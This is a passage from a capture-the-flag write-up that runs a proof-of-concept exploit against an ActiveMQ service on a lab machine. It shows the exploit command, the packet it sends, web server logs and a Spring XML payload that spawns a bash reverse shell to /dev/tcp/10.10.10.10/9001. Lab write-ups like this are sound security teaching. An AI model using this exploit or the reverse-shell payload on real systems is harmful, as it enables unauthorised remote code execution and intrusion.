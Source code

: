 ### Run POC

To run the POC, I can start with a Python webserver and run the Python script:

    
    
    oxdf@hacky$ python exploit.py -i 10.10.11.243 -u http://10.10.14.6/test.xml
         _        _   _           __  __  ___        ____   ____ _____ 
        / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
       / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|  
      / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___ 
     /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|
    
    [*] Target: 10.10.11.243:61616
    [*] XML URL: http://10.10.14.6/poc.xml
    
    [*] Sending packet: 0000006c1f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e74657874010019687474703a2f2f31302e31302e31342e362f706f632e786d6c
    

There is a hit at my websertver (twice actually):

    
    
    10.10.11.243 - - [08/Nov/2023 13:33:53] code 404, message File not found
    10.10.11.243 - - [08/Nov/2023 13:33:53] "GET /test.xml HTTP/1.1" 404 -
    10.10.11.243 - - [08/Nov/2023 13:34:26] code 404, message File not found
    10.10.11.243 - - [08/Nov/2023 13:34:26] "GET /test.xml HTTP/1.1" 404 -
    

So I need to look at this XML file. The exploit comes with `poc.xml`:

    
    
    <?xml version="1.0" encoding="UTF-8" ?>
        <beans xmlns="http://www.springframework.org/schema/beans"
           xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
           xsi:schemaLocation="
         http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
            <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
                <constructor-arg>
                <list>
                    <value>bash</value>
                    <value>-c</value>
                    <value>bash -i &gt;&amp; /dev/tcp/10.10.10.10/9001 0&gt;&amp;1</value>
                </list>
                </constructor-arg>
            </bean>
        </beans>
    

It’s clearly calling a classic [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw), `bash -c 'bash -i >&
/dev/tcp/10.10.10.10/9001'`. I’ll update the payload to my IP address and host
it with the Python webserver.

With `nc` listening on 9001, I’ll run the exploit again. It fetches `poc.xml`
(twice):
